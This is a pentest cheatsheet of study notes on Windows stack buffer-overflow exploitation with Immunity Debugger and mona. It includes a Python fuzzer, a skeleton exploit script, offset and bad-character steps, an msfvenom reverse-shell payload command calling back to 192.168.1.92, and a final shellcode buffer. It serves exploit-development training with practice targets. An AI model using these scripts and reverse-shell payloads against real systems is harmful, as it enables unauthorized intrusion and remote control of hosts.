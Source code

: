 ################
Buffer Overflows
################   

Taken from Tiberius's [buffer overflow cheatsheet](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst) my notes added   

* https://bytesoverbombs.io/exploiting-a-64-bit-buffer-overflow-469e8b500f10
* https://www.abatchy.com/2017/05/jumping-to-shellcode.html
* http://www.voidcn.com/article/p-ulyzzbfx-z.html
* https://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/
* https://medium.com/@johntroony/a-practical-overview-of-stack-based-buffer-overflow-7572eaaa4982

Immunity Debugger
=================

**Always run Immunity Debugger as Administrator if you can.**

There are generally two ways to use Immunity Debugger to debug an application:

1. Make sure the application is running, open Immunity Debugger, and then use :code:`File -> Attach` to attack the debugger to the running process.
2. Open Immunity Debugger, and then use :code:`File -> Open` to run the application.

When attaching to an application or opening an application in Immunity Debugger, the application will be paused. Click the "Run" button or press F9.

Note: If the binary you are debugging is a Windows service, you may need to restart the application via :code:`sc`

.. code-block:: none

    sc stop SLmail
    sc start SLmail

Some applications are configured to be started from the service manager and will not work unless started by service control.

Mona Setup
==========

Mona is a powerful plugin for Immunity Debugger that makes exploiting buffer overflows much easier. Download: :download:`mona.py <../_static/files/mona.py>`

| The latest version can be downloaded here: https://github.com/corelan/mona
| The manual can be found here: https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

Copy the mona.py file into the PyCommands directory of Immunity Debugger (usually located at C:\\Program Files\\Immunity Inc\\Immunity Debugger\\PyCommands).

In Immunity Debugger, type the following to set a working directory for mona.

.. code-block:: none

    !mona config -set workingfolder c:\mona\%p

Fuzzing
=======

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

.. code-block:: python

    import socket, time, sys

    ip = "10.0.0.1"
    port = 21
    timeout = 5

    # Create an array of increasing length buffer strings.
    buffer = []
    counter = 100
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 100

    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            connect = s.connect((ip, port))
            s.recv(1024)
            s.send("USER username\r\n")
            s.recv(1024)

            print("Fuzzing PASS with %s bytes" % len(string))
            s.send("PASS " + string + "\r\n")
            s.recv(1024)
            s.send("QUIT\r\n")
            s.recv(1024)
            s.close()
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
        time.sleep(1)

Check that the EIP register has been overwritten by A's (\\x41). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

Crash Replication & Controlling EIP
===================================

The following skeleton exploit code can be used for the rest of the buffer overflow exploit:

.. code-block:: python

    import socket
    
    ip = "10.0.0.1"
    port = 21
    
    prefix = ""
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = ""
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(buffer + "\r\n")
        print("Done!")
    except:
        print("Could not connect.")

Using the buffer length which caused the crash, generate a unique buffer so we can determine the offset in the pattern which overwrites the EIP register, and the offset in the pattern to which other registers point. Create a pattern that is 400 bytes larger than the crash buffer, so that we can determine whether our shellcode can fit immediately. If the larger buffer doesn't crash the application, use a pattern equal to the crash buffer length and slowly add more to the buffer to find space.

.. code-block:: none

    $ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

While the unique buffer is on the stack, use mona's findmsp command, with the distance argument set to the pattern length.

.. code-block:: none

    !mona findmsp -distance 600
    ...
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    EIP contains normal pattern : 0x78413778 (offset 112)
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...

Note the EIP offset (112) and any other registers that point to the pattern, noting their offsets as well. It seems like the ESP register points to the last 484 bytes of the pattern, which is enough space for our shellcode.

Create a new buffer using this information to ensure that we can control EIP:

.. code-block:: none

    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "BBBB"
    padding = ""
    payload = "C" * (600-112-4)
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix

Crash the application using this buffer, and make sure that EIP is overwritten by B's (\\x42) and that the ESP register points to the start of the C's (\\x43).

Finding Bad Characters
======================

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

.. code-block:: none

    !mona bytearray -b "\x00"

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff:

.. code-block:: python

    #!/usr/bin/env python
    from __future__ import print_function

    for x in range(1, 256):
        print("\\x" + "{:02x}".format(x), end='')

    print()

Put the string of bad chars before the C's in your buffer, and adjust the number of C's to compensate:

.. code-block:: none

    badchars = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
    payload = badchars + "C" * (600-112-4-255)

Crash the application using this buffer, and make a note of the address to which ESP points. This can change every time you crash the application, so get into the habit of copying it from the register each time.

Use the mona compare command to reference the bytearray you generated, and the address to which ESP points:

.. code-block:: none

    !mona compare -f C:\mona\appname\bytearray.bin -a <address>

Find a Jump Point
=================

The mona jmp command can be used to search for jmp (or equivalent) instructions to a specific register. The jmp command will, by default, ignore any modules that are marked as aslr or rebase.

The following example searches for "jmp esp" or equivalent (e.g. call esp, push esp; retn, etc.) while ensuring that the address of the instruction doesn't contain the bad chars \\x00, \\x0a, and \\x0d.

.. code-block:: none

    !mona jmp -r esp -cpb "\x00\x0a\x0d"

The mona find command can similarly be used to find specific instructions, though for the most part, the jmp command is sufficient:

.. code-block:: none

    !mona find -s 'jmp esp' -type instr -cm aslr=false,rebase=false,nx=false -cpb "\x00\x0a\x0d"

Generate Payload
================

Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously:

.. code-block:: none

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.92 LPORT=53 EXITFUNC=thread -b "\x00\x0a\x0d" -f c

Prepend NOPs
============

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\\x90) to the payload.

Final Buffer
============

.. code-block:: none

    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "\x56\x23\x43\x9A"
    padding = "\x90" * 16
    payload = "\xdb\xde\xba\x69\xd7\xe9\xa8\xd9\x74\x24\xf4\x58\x29\xc9\xb1..."
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix

Buffer Overflow Practice
========================

* https://github.com/justinsteven/dostackbufferoverflowgood
* https://github.com/stephenbradshaw/vulnserver
* https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/
